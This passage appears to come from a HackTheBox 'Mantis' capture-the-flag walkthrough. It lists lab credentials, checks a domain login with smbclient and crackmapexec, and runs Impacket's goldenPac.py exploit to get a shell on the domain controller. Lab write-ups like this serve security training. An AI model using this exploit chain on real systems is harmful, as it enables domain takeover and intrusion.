 | Username | Password | Target |
| --- | --- | --- |
| admin | m$$ql_S@_P@ssW0rd! | orcharddb (SQL) |
| admin | @dm!n_P@ssW0rd! | OrchardCMS |
| james | J@m3s_P@ssW0rd! | htb.local (Domain) |

`Smbclient` shows that user and password are valid domain credentials.

```
$ smbclient -I 10.10.10.52 -L mantis -U HTB.local/James%J@m3s_P@ssW0rd!

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
```

`Crackmapexec` shows that we have READ access on a couple of shares with this credential.

```
$ crackmapexec smb -u 'James' -p 'J@m3s_P@ssW0rd!' -d 'HTB.local' 10.10.10.52 --shares
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:HTB.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] HTB.local\James:J@m3s_P@ssW0rd! 
SMB         10.10.10.52     445    MANTIS           [+] Enumerated shares
SMB         10.10.10.52     445    MANTIS           Share           Permissions     Remark
SMB         10.10.10.52     445    MANTIS           -----           -----------     ------
SMB         10.10.10.52     445    MANTIS           ADMIN$                          Remote Admin
SMB         10.10.10.52     445    MANTIS           C$                              Default share
SMB         10.10.10.52     445    MANTIS           IPC$                            Remote IPC
SMB         10.10.10.52     445    MANTIS           NETLOGON        READ            Logon server share 
SMB         10.10.10.52     445    MANTIS           SYSVOL          READ            Logon server share
```

```
$ /usr/share/doc/python3-impacket/examples/goldenPac.py HTB.local/James@mantis.htb.local -dc-ip mantis.htb.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password: J@m3s_P@ssW0rd!
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn't get forest info ([Errno Connection error (htb.local:445)] [Errno -2] Name or service not known), continuing
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file QZeiKeYS.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service qsez on mantis.htb.local.....
[*] Starting service qsez.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
```